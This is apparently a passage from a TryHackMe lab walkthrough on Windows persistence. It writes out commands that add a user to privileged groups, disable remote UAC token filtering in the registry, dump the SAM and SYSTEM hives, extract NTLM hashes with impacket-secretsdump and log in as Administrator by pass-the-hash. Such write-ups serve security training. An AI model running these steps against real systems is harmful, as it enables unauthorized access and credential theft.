 And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:

```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4899f69e89088c4cb4bbdaa3cb4bbdaa3
```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Using the Administrator console gained through the thmuser1, execute `C:\flags\flag1.exe` to retrieve your flag.

**Practical**

***

Let's use these commands on the windows machine:

```
net localgroup "Backup Operators" thmuser1 /add
net localgroup "Remote Management Users" thmuser1 /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1 
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250515151535.png)

We are now able to get access as `thmuser1`:

```
evil-winrm -i IP -u thmuser1 -p Password321
```

Inside of this shell, we need to do:

```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

Once we've saved all of that, we can use `impacket-secretsdump`:

```
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
thmuser1:1008:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser2:1009:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser3:1010:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser0:1011:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser4:1013:aad3b435b51404eeaad3b435b51404ee:8767940d669d0eb618c15c11952472e5:::
```
